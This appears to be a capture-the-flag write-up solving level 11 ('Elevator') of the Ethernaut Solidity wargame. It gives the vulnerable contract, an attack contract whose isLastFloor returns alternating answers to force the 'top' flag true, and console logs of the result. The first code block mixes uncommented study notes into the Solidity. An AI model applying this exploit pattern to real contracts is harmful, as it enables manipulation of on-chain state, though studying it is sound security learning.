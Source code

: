 ## Ethernaut-solution

### 11. Elevator
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {//interface is object oriented language 
  function isLastFloor(uint) external returns (bool);//eternal is function visibility specifier /public, private, external, internal 
} //who can call specific function 
public -> anybody outside of the contract can call that function 
private -> can only be call from within the current contract its only visible thats denoted as private within the current contract can
external -> anybody outside of a contract can call this function that what we have denoted here this function 
//basically more it utilize resources more effectively when large array or data are passed into or as arguments to these function 
Internal -> that a function only visible private within a given function and within all contracts that inherent

/State modifier //promises how function with interact with "data on the ethereum blockchain" (State)
pure -> no state variable in contract would be read. you wanna be create a function that math operation you wanna put that any state. you would denote that function as pure.
view -> would allow to read state from blockchain but it would not allow you to modify it 



contract Elevator {
  bool public top; //getter //top is set "true" 
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender); //instanse of interface 

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Elevator.sol";

contract ElevatorAttack {
    bool public toggle = true;
    Elevator public target;

    constructor(address _targetAddress) public {
        target = Elevator(_targetAddress);
    }

    function isLastFloor(uint) public returns (bool) {
        toggle = !toggle; 
        //negate //when isLastFloor is first gonna get called, its gonna be negated to false
        return toggle;
    }//return false that means the negation of false is true, which means we'll pass this if clause right here
     //top variable is true, which means we will beat the level

     function setTop(uint _floor) public {
         target.goTo(_floor);
     }
}
```
```
>await contract.top()
false
```
```
>await contract.floor()
o {negative: 0, words: Array(2), length: 1, red: null}
length: 1
negative: 0
red: null
words: Array(2)
0: 0 //floor //going to return this promise here //the current floor is no floor 
length: 2
[[Prototype]]: Array(0)
[[Prototype]]: Object
```

//a visibility modifier or what is sometimes called a visibillity specifier 

//basically denotes who gets to invoke certain function 
```
>contract.address

'0x8fFa9c56792650D32E2fA82bca71D664AA26Bee0'
```

//deploy 
```
[block:10904894 txIndex:3]from: 0xF6e...f30F5to: ElevatorAttack.(constructor)value: 0 weidata: 0x608...57f5blogs: 0hash: 0x6e9...d61dc
```

//DeployedContract setTopに15階をsetting 
```
[block:10904912 txIndex:9]from: 0xF6e...f30F5to: ElevatorAttack.setTop(uint256) 0x1F1...5387cvalue: 0 weidata: 0x3f2...0000flogs: 0hash: 0x461...27f04
```
```
>await contract.top()
true
```
```
>await contract.floor()
o {negative: 0, words: Array(2), length: 1, red: null}
length: 1
negative: 0
red: null
words: Array(2)
0: 15
length: 2
[[Prototype]]: Array(0)
[[Prototype]]: Object
```

You can use the view function modifier on an interface in order to prevent state modifications.
 The pure modifier also prevents functions from modifying the state. 
 Make sure you read Soliditys documentation and learn its caveats.
 https://docs.soliditylang.org/en/develop/contracts.html#view-functions

An alternative way to solve this level is to build a view function which returns different results depends on input data but dont modify state, e.g. gasleft().












